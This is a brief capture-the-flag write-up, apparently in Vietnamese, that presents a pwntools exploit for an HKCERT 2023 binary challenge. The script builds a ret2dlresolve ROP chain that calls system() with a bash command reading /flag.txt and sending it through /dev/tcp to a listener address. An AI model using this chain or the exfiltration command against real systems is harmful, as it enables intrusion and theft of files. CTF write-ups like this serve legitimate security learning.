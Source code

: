 ![og](/assets/images/one_gg.png)



- khai thác dự định : 

```python
from pwn import *

context.binary = elf = ELF('./chall')

# host a server listen to the flag
listener_ip = ''
listener_port = 4444

rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=[f"bash -c 'cat /flag.txt >& /dev/tcp/{listener_ip}/{listener_port}'"])
rop.raw(rop.ret)
rop.gets(dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

p = remote('chal.hkcert23.pwnable.hk', 28333)

p.sendline(fit({120: raw_rop}))
sleep(1)
p.sendline(dlresolve.payload)

p.interactive()

```

![here](/assets/images/flag1.png)